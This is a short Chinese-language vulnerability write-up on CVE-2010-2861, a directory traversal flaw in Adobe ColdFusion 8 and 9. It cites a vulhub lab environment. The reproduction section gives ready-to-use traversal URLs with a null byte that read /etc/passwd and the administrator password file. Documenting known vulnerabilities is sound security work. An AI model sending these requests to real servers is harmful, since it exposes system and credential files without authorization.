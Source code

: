 ```yaml
---
title: （CVE-2010-2861）Adobe ColdFusion 文件读取漏洞
id: zhfly2805
---
```


# （CVE-2010-2861）Adobe ColdFusion 文件读取漏洞

## 一、漏洞简介

Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。

## 二、漏洞影响

Adobe ColdFusion 8

Adobe ColdFusion 9

## 三、复现过程

直接访问`http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`，即可读取文件`/etc/passwd`：

![image](../img/309c8fe11ad9310ce57bbd1487257533.png)

读取后台管理员密码`http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en`：

![image](../img/9493648f6d2b241211cf9b841c79d04d.png)

## 参考链接

> https://vulhub.org/#/environments/coldfusion/CVE-2010-2861/